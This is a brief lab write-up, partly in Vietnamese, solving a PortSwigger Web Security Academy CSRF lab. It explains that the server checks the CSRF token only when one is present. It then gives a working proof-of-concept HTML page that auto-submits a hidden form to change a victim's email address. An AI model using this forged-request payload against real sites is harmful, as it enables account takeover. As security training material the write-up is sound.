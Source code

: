 # [Lab: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)

Lỗ hổng: phía server check request mà csrf token thì không kiểm tra luôn.

```html
<html>
    <body>
        <form action="https://0acd00940496fb77c0ba1024006f000c.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```